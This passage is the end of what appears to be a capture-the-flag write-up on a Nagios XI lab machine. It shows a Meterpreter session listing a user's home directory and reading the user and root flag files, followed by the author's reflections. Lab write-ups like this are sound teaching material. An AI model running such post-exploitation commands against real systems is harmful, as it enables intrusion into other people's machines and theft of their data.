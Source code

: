 This is it! Sorry Micky, Rest In Peace. So now it's time to loot what we need.

````commandline
meterpreter > pwd
/usr/local/nagiosxi/html/includes/components/profile
meterpreter > ls /home/
Listing: /home/
===============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-03-25 04:45:51 +0100  galand

meterpreter > ls /home/galand 
Listing: /home/galand
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  481   fil   2020-03-25 05:07:21 +0100  .bash_history
100644/rw-r--r--  220   fil   2020-03-23 18:38:06 +0100  .bash_logout
100644/rw-r--r--  3771  fil   2020-03-23 18:38:06 +0100  .bashrc
40700/rwx------   4096  dir   2020-03-23 23:59:15 +0100  .cache
40755/rwxr-xr-x   4096  dir   2020-03-24 00:42:44 +0100  .cpan
40700/rwx------   4096  dir   2020-03-24 00:42:45 +0100  .gnupg
40775/rwxrwxr-x   4096  dir   2020-03-25 04:45:26 +0100  .nano
100644/rw-r--r--  655   fil   2020-03-23 18:38:06 +0100  .profile
100600/rw-------  1024  fil   2020-03-24 01:08:28 +0100  .rnd
40755/rwxr-xr-x   4096  dir   2020-03-24 01:04:03 +0100  .subversion
100644/rw-r--r--  0     fil   2020-03-23 23:59:40 +0100  .sudo_as_admin_successful
40755/rwxr-xr-x   4096  dir   2020-03-24 01:08:49 +0100  nagiosxi
100664/rw-rw-r--  38    fil   2020-03-25 04:45:51 +0100  user.txt

meterpreter > cat /home/galand/user.txt 
THM{84*****d1d72a9f2e99c33bc5*****f1}
meterpreter > cat /root/root.txt 
THM{c8*****9c83067503a6508b21*****62}
````

Mission accomplished!

This was really a difficult one, easy to fall in rabbit holes or get lost in the galaxy of the Internet. The exploit on itself was very easy, and we could have hacked this box in less than 15 minutes. Instead of this, it took something like 5-6 hours just for googling and figuring out what I was supposed to do with the information I got so far.

Hopefully you enjoyed as much as I did :-)
